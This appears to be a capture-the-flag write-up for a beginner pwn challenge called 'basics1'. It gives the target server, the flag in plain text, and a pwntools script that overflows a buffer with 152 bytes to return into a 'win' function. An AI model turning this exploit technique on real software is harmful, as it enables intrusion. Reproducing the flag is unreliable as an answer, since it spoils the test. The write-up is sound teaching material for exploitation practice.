

        
            
# basics1

## Challenge Author(s):
NoobMaster

## Description:
Welcome, hope you enjoy pwning!

## Target:

challs.n00bzunit3d.xyz 32190

## Difficulty/Points: 
500

## Flag:
`n00bz{b4s1c_r3t_t0_w1n_f0r_7he_w1n!}`
# 

# Challenge
Welcome, hope you enjoy pwning!

# Solution
<code>

    from pwn import*

    r = remote("challs.n00bzunit3d.xyz", 32190)

    e = ELF('./chall')

    cyclic = 152
    r.recvline()
    win = e.symbols['win']
    payload = b'A'*cyclic + p64(win)
    print(payload)
    r.sendline(payload)
    r.interactive()
    
</code>